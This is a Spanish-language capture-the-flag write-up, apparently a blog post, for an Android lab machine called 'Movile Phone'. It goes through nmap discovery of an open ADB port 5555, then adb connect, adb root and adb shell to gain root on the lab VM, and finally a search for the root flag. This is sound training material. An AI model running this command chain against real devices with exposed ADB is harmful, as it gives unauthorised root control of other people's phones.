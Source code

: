 ```yaml
---
title: Movile Phone
description: ¡Explora el emocionante mundo del hacking en Android en nuestra plataforma de CTFs y retos! Desafía las vulnerabilidades en el sistema operativo móvil más utilizado, utiliza herramientas especializadas y aplica técnicas avanzadas para comprometer y manipular dispositivos Android. Cada reto te permitirá mejorar tus habilidades en explotación de aplicaciones móviles y control de sistemas Android. ¡Acepta el desafío, demuestra tu destreza y domina el arte de la seguridad en Android!
date: 2025-03-06
toc: true
pin: false
image:
 path: /assets/img/thl-writeup-movilephone/movilephone_logo.png
categories:
  - The Hackers Labs
tags:
  - android
  - the hackers labs
  - adb
  - tcp
  - privilege escalation

---
```

## Information Gathering

![](assets/img/thl-writeup-movilephone/movilephone1_1.png)

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# arp-scan -l | grep 08:00
192.168.0.60	08:00:27:10:3f:9a	PCS Systemtechnik GmbH
```

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# ping -c 1 192.168.0.60
PING 192.168.0.60 (192.168.0.60) 56(84) bytes of data.
64 bytes from 192.168.0.60: icmp_seq=1 ttl=64 time=0.257 ms

--- 192.168.0.60 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.257/0.257/0.257/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# nmap -p- --open -sS --min-rate 5000 -vvv -Pn 192.168.0.60 -oG nmap1
Status: Up
Ports: 5555/open/tcp//freeciv///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# nmap -sCV -p5555 -vvv 192.168.0.60 -oN nmap2
PORT     STATE SERVICE  REASON         VERSION
5555/tcp open  freeciv? syn-ack ttl 64
MAC Address: 08:00:27:10:3F:9A (Oracle VirtualBox virtual NIC)
```

---
## Privilege Escalation

Se establece una conexión con el dispositivo a través de Android Debug Bridge utilizando el puerto 5555.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb connect 192.168.0.60:5555
connected to 192.168.0.60:5555
```

Una vez conectado, intento elevar privilegios con adb root, lo que reinicia el daemon de ADB con privilegios de superusuario

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb root
restarting adbd as root
```

A continuación, abro una shell interactiva en el dispositivo. Y verifico que el acceso se ha obtenido correctamente.

```terminal
/home/kali/Documents/thehackerslabs/movilephone:-# adb shell

root@x86_64:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)
```

Para localizar la flag de root, utilizó find para buscar el archivo root.txt en el sistema.

```terminal
root@x86_64:/ # find / -name 'root.txt' 2>/dev/null
/data/root/root.txt

root@x86_64:/ # cat data/root/root.txt
```